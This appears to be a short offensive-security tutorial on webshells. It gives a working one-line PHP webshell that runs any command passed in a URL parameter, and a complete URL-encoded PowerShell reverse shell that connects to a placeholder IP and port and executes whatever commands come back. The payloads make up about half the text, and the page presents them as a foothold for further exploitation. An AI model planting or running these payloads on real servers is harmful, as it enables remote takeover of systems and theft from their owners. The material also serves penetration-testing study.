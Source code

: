 **Introduction to Webshells:**

In the realm of cybersecurity, webshells emerge as invaluable tools when interacting with websites that permit the uploading of executable files. A **webshell** is essentially a script, often coded in languages like PHP or ASP, designed to operate within a web server environment. These scripts facilitate the execution of commands on the server by allowing users to input them through a webpage—either via HTML forms or as URL parameters. This capability becomes particularly advantageous when traditional reverse or bind shell uploads are impractical or restricted.

**Usage of Webshells:**

A common and straightforward example is a PHP webshell in a concise one-line format:

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

Here, users can input commands in the URL after `?cmd=` to have them executed on the server. This enables interaction with the system, making tasks such as checking network information or running various commands feasible.

Additionally, when targeting Windows servers, webshells offer a practical means of Remote Code Execution (RCE). For instance, URL encoding is often employed for PowerShell reverse shells, allowing users to interact with Windows servers effectively:

```plaintext
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Understanding the usage of webshells is pivotal in scenarios where direct execution of traditional shells is restricted, offering a versatile and effective means of interaction with servers. Webshells serve as a practical foothold for further exploitation, especially when firewalls are in place or direct shell execution is constrained.